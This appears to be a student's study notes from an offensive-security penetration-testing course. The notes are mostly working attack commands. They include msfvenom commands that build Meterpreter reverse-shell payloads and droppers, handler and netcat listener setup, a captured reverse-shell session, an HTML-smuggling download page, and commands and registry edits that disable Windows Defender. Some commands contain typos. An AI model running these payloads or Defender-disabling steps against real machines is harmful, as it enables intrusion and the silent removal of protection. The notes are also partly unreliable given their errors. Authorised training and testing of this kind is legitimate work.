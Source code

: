 password: @Hide01

# generating payloads from meterpreter

```s
    msfvenom -p windows/x64/meterpreter/reverse_https -a x64 LHOST=10.10.6.12 LPORT=4443 EXIT=thread -f ps1.
```
for starting reverse handler in msfconsole use
```s
    use exploit/multi/handler
    set payload windows/x64/meterpereter/reverse_https
    set lhost
    set lport
    exploit
```
To send any session to background use bg
  list sessions using 'sessions'
  start interacting with a session using session number 'sessions 1'

# chapter 3 Windows concepts

1. WOW  - Windows on windows. Most windows mahine sise the 64 bit version of the Windows Operating system. However many applications are still 32 bit.

Ntdll.dll, Wow64.dll, Wow64Win.dll and Wow64Cpu.dll - used for this emuation.

2. WIn32 API -  various applications in a variety of programming languages ranging from assembly to C# but many of those make use of the windows provided built in programming interfaces.

Many  of  the  Win32  APIs  are  documented  by  Microsoft.  One  simple  example  is  the 
GetUserNameA33 API exported by Advapi32.dll which retrieves the name of the user executing the 
function. 

```
BOOL GetUserNameA( 
  LPSTR   lpBuffer, 
  LPDWORD pcbBuffer 
);
```

In this example, the API requires two arguments. The first is an output buffer of type LPSTR which 
is the Microsoft term for a character array. The second argument is a pointer to a DWORD which 
is a 32-bit unsigned integer. The return value from the API is a boolean.

Listing 2 above shows the prototype for GetUserNameA, where the suffix “A” indicates the ASCII 
version of the API. Listing 3 below shows the prototype for GetUserNameW, in which the “W” 
suffix (for “wide char”) indicates Unicode: 

```
BOOL GetUserNameW( 
  LPWSTR  lpBuffer, 
  LPDWORD pcbBuffer 
); 
```
3.  Windows Registry : Windows Registry to support local and global variables. 

4. page 31/704

Staged vs Non staged payloads

windows/shell/reverse_tcp is a simple non staged reverse TCP shell payload
Staged payloads contain a minimal amoutn of code thta tperforms a callback then retrieves any remaining acode and executes it in th etargets memory.

the differenece in the delimiters
s
windows/x64/meterpreter_reverse_https - meterpreter shell - full payload
windows/x64/meterpreter/reverse_https - Reflective dll staged - staged payload

5. Building a dropper

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=4444 -f ee -o /var/ww/html/shell.exe

sudo service apache2 start

sudo nc -lnvp 4444 to start a reverse shell

6. Creating a staged dropper

So that the size is less.

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.6.10 LPORT=4444 -f exe -o /var/www/html/msfnonstaged.exe

```
kali@kali:~/cyber/pen300$ sudo nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.6.10] from (UNKNOWN) [10.10.136.133] 53944
��ao��H▒[�5x���h�5��H�����h�*Q&�,�+�0�/�$�#�(�'�
�       ����=<5/
F
▒
#�whoami
```

- creating a listener
```
sudo msfconsole -q

msf5 > use multi/handler

set payload windows/x64/meterpreter/reverse_https

set lhost 10.10.6.10

set lport 4444

exploit
```

for nonstaged payload you can get reverse connect on nc -lnvp 4444
for staged payloads we can get reverse shell on msfconsole

### Important commands for DIDR

listing processes
>tasklist | findstr pid
>taskkill /f /pid 123

netstat 
>netstat -aon | findstr "4444"
  -TCP    10.10.136.133:59795    10.10.6.10:4444        SYN_SENT        9972

Removing the entire directory
>RMDIR /s twint 

### HTML Smuggling

- attackers may use discreet delivery methods, embedding a link in an emal. using a javascript dropper code in the HTML itseld. we can create a simple hyperlink and set th edownload attribute anchor tag
```html
<html>
  <body>
    <a href="/msfstaged.exe" download="msfstaged.exe> DownloadME </a>
  </body>
</html>
```
However this makes the user manually click on the link. Instead we can make the lnk embedded javascript file.

we will create a Base64 meterpreter.


### HTML smuggling directly

Although this works well, it exposes the filename and extension of the dropper and requires the 
user to manually click on the link. To avoid this we can trigger the download from an embedded 
JavaScript file. This method feeds the file as an octet stream and will download the assembled 
file without user interaction.

### space racoon advice

https://spaceraccoon.dev/offensive-security-experienced-penetration-tester-osep-review-and-exam

# starting and stopping windows defender

https://www.itechtics.com/enable-disable-windows-defender/#:~:text=1%20How%20To%20Disable%20Windows%20Defender%20Using%20Command,again%2C%20run%20the%20following%20command%3A%20sc%20start%20WinDefend

Open command prompt with administrative privileges
Run the following command to disable Windows Defender:
sc stop WinDefend
To enable Windows defender again, run the following command:
sc start WinDefend
Please note that this is a temporary method to stop Windows Defender. The service will return to its original state once the system is restarted. To disable Windows Defender permanently using the command prompt, run the following command:

```
sc config WinDefend start= disabled
sc stop WinDefend

To enable it again on startup, run the following commands:

sc config WinDefend start= auto
sc start WinDefend

If you want to check the current state of the Windows Defender service, run the following command:

sc query WinDefend

Check the STATE variable. It should be in RUNNING state if it is enabled.
```

```
Run PowerShell with administrative privileges (Windows key + X + A)
To disable real-time monitoring for Windows Defender, run the following command:
Set-MpPreference -DisableRealtimeMonitoring $true
To enable real-time monitoring, run the following command:
Set-MpPreference -DisableRealtimeMonitoring $false
```

```
Go to Run –> regedit. This will open the Windows Registry Editor.
Navigate to the following key:
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender
In the right pane, right-click the empty area and create a new DWORD (32-bit) value.

Rename the new item to DisableAntiSpyware
Double-click DisableAntiSpyware and change its value to 1.
Windows Defender will not load after the next computer restart. To enable Windows Defender again, you can either delete the created registry key or simply change its value to 0.
```






